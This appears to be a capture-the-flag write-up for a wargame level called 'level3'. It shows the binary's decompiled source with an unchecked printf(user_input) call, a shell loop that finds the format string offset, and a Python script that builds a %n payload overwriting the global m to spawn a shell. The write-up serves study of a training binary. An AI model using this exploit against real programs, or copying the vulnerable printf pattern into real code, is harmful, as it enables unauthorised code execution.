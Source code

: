 <h1 align="center"> LEVEL 3 </h1>

## 🔍 Analysis of Decompiled [level3](./source.c)
The target is a vulnerable binary named `level3`. Our goal is to:

- Exploit a **format string vulnerability** in `printf()`
- Overwrite a global variable `m` with the value `0x40`
- Satisfy the condition `if (m == 0x40)` to execute `system("/bin/sh")`


### 🔐 Binary Protections

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3


$ cat /proc/sys/kernel/randomize_va_space
0
```
```C
void v(void) {
  char local_20c[520];
  fgets(local_20c, 0x200, stdin);
  printf(local_20c);  // ⚠️ format string vulnerability
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
}
```
## 💥 Exploit 
Leak stack contents to determine the correct format string offset
Use %n to write `0x40` to the address of the global variable m
Trigger the condition and gain a shell

###  Step 1: Find the Address of m

```
(gdb) p &m
$1 = (int *) 0x0804988c
```
### Step 2: Discover Format String Offset

```SH
for i in $(seq 1 40); do
  python -c "print('AAAA' + ' %%%d\$x' % $i)" | ./level3
done
AAAA 200
AAAA b7fd1ac0
AAAA b7ff37d0
AAAA 41414141
AAAA 24352520
...
```
Look for 41414141 in the output. appears at %4$x, that means the offset is 4.

The string ' %%%d\$x' % $i

In Python string formatting with %, the %d is replaced by the value of $i (a shell variable).

%%%d\$x becomes:

%% → a literal % in the string.

%d → replaced by the number $i.

\$x → literally $x.

So if $i = 4, it becomes: %4$x

This is a format specifier for printf in C. It means: “print the 4th argument as a hexadecimal number.”

### Step 3: Exploit Script
```PY
import struct
import sys

if len(sys.argv) != 2:
    print("Usage: python exploit.py <offset>")
    sys.exit(1)

offset = int(sys.argv[1])

m_addr = struct.pack("<I", 0x0804988c)  # Address of 'm'
target_val = 0x40  # Decimal 64

written = len(m_addr)
padding = target_val - written
if padding < 0:
    padding += 256

fmt = "%%%dx%%%d$n" % (padding, offset) #"%%%dx%%%d$n" % (60, 4)   --> "%60x%4$n"
payload = m_addr + fmt.encode("ascii")

with open("payload.txt", "wb") as f:
    f.write(payload)

print("Wrote payload with offset %d" % offset)

```
### Step 4: Execute the Exploit
```
python exploit.py 4 
(cat payload.txt; cat) | ./level3
Wait what?!
$ whoami
level4
```
